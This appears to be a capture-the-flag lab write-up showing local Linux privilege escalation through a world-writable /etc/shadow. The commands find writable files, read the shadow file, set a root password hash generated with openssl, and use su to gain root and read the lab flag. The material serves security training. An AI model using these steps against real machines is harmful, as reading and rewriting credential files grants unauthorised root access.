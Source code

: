# Permissions incorrectly set

Find files with `other` write permissions

```
student@attackdefense:~$ find / -not -type l -perm -o+w
/dev/urandom
/dev/zero
/dev/tty
/dev/full
...
/etc/shadow
```

Check it's content

```
student@attackdefense:~$ ls -l /etc/shadow
-rw-rw-rw- 1 root shadow 523 Sep 23  2018 /etc/shadow
student@attackdefense:~$ cat /etc/shadow
root:*:17764:0:99999:7:::
daemon:*:17764:0:99999:7:::
bin:*:17764:0:99999:7:::
sys:*:17764:0:99999:7:::
sync:*:17764:0:99999:7:::
games:*:17764:0:99999:7:::
man:*:17764:0:99999:7:::
lp:*:17764:0:99999:7:::
mail:*:17764:0:99999:7:::
news:*:17764:0:99999:7:::
uucp:*:17764:0:99999:7:::
proxy:*:17764:0:99999:7:::
www-data:*:17764:0:99999:7:::
backup:*:17764:0:99999:7:::
list:*:17764:0:99999:7:::
irc:*:17764:0:99999:7:::
gnats:*:17764:0:99999:7:::
nobody:*:17764:0:99999:7:::
_apt:*:17764:0:99999:7:::
student:!:17797::::::
```

Notice that root password is not set.

Use openssl to generate password entry and add the password hash to /etc/shadow

```
student@attackdefense:~$ openssl passwd -1 -salt abc password
$1$abc$BXBqpb9BZcZhXLgbee.0s/
student@attackdefense:~$ vim /etc/shadow
student@attackdefense:~$ cat /etc/shadow
root:$1$abc$BXBqpb9BZcZhXLgbee.0s/:17764:0:99999:7:::
daemon:*:17764:0:99999:7:::
bin:*:17764:0:99999:7:::
sys:*:17764:0:99999:7:::
sync:*:17764:0:99999:7:::
games:*:17764:0:99999:7:::
man:*:17764:0:99999:7:::
lp:*:17764:0:99999:7:::
mail:*:17764:0:99999:7:::
news:*:17764:0:99999:7:::
uucp:*:17764:0:99999:7:::
proxy:*:17764:0:99999:7:::
www-data:*:17764:0:99999:7:::
backup:*:17764:0:99999:7:::
list:*:17764:0:99999:7:::
irc:*:17764:0:99999:7:::
gnats:*:17764:0:99999:7:::
nobody:*:17764:0:99999:7:::
_apt:*:17764:0:99999:7:::
student:!:17797::::::
```

Switch to root user with our created password

```
student@attackdefense:~$ su
Password:
root@attackdefense:/home/student# cat /root/flag
e62ab67ddff744d60cbb6232feaefc4d
```
